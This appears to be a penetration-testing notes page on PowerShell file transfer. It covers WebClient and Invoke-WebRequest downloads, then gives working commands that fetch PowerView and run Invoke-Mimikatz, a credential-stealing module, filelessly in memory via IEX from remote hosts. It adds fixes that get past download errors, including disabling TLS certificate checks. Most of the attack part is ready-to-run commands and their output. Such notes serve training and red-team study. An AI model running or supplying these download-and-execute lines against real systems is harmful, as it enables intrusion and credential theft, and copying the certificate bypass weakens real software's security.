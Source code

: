 ```yaml
---
icon: windows
---
```


# PowerShell Web Download

Most companies allow HTTP and HTTPS outbound traffic through the firewall to allow employee productivity. Leveraging these transportation methods for file transfer operations is very convenient. Still, defenders can use Web filtering solutions to prevent access to specific website categories, block the download of file types (like .exe), or only allow access to a list of whitelisted domains in more restricted networks.

PowerShell offers many file transfer options. In any version of PowerShell, the **System.Net.WebClient** class can be used to download a file over HTTP, HTTPS or FTP. The following table describes **WebClient** methods for downloading data from a resource:

| Method              | Description                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| OpenRead            | Returns the data from a resource as a Stream.                                                |
| OpenReadAsync       | Returns the data from a resource without blocking the calling thread.                        |
| DownloadData        | Downloads data from a resource and returns a Byte array.                                     |
| DownloadDataAsync   | Downloads data from a resource and returns a Byte array without blocking the calling thread. |
| DownloadFile        | Downloads data from a resource to a local file.                                              |
| DownloadFileAsync   | Downloads data from a resource to a local file without blocking the calling thread.          |
| DownloadString      | Downloads a String from a resource and returns a String.                                     |
| DownloadStringAsync | Downloads a String from a resource without blocking the calling thread.                      |

## Invoke-WebRequest File Download

From PowerShell 3.0 onwards, the **Invoke-WebRequest** cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases _iwr_, _curl_, and _wget_ instead of the Invoke-WebRequest full name.

Example usage:

```powershell
PS C:\> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

## Web.Client File Download

We can specify the class name **Net.WebClient** and the method **DownloadFile** with the parameters corresponding to the URL of the target file to download and the output file name.

Example command:

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

Download PowerView:

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

Download PowerView asynchronously:

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

## Fileless Download

Fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the **Invoke-Expression** cmdlet or the alias **IEX**.

IEX example:

```powershell
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX pipeline input:

```powershell
PS C:\> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

***

## Debug

#### Internet Explorer First Launch

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

This can be bypassed using the parameter **-UseBasicParsing**.

```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

Example:

```powershell
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

#### SSL/TLS Secure Channel: Certificate is not Trusted

Bypass this error with the following command:

```powershell
PS C:\> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
